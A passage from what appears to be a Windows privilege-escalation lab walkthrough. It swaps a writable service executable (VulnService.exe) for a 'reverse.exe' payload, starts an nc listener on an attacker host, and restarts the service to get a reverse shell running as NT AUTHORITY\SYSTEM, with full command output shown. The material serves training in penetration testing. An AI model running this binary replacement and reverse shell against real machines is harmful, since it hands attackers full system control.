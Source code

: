 ```powershell
        SERVICE_STOP
        READ_CONTROL
```

Create a backup of the original executable:

```powershell
C:\Users\user>copy "C:\Program Files\Insecure Service Executable\VulnService.exe" C:\Temp
Overwrite C:\Temp\VulnService.exe? (Yes/No/All): Yes
        1 file(s) copied.
```

Stop the service:

```powershell
C:\Users\user>sc stop "Insecure VulnService Executable"

SERVICE_NAME: Insecure VulnService Executable
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

Copy the `reverse.exe` executable you created and replace the `VulnService.exe` with it:

```powershell
C:\Users\user>copy C:\Tools\reverse.exe "C:\Program Files\Insecure Service Executable\VulnService.exe"
Overwrite C:\Program Files\Insecure Service Executable\VulnService.exe? (Yes/No/All): Yes
        1 file(s) copied.
```

Then in the attacker host, we'll set up a `nc` listener:

```shell
nc -lvnp 443
```

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

```powershell
C:\Users\user>net start "Insecure VulnService Executable"
# IT HANGS HERE
```

We have escalated privileges to `NT AUTHORITY\SYSTEM`:

```powershell
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.27.128] from (UNKNOWN) [192.168.27.129] 50997
Microsoft Windows [Version 10.0.22000.493]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /all
whoami /all

USER INFORMATION
----------------

User Name           SID
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
```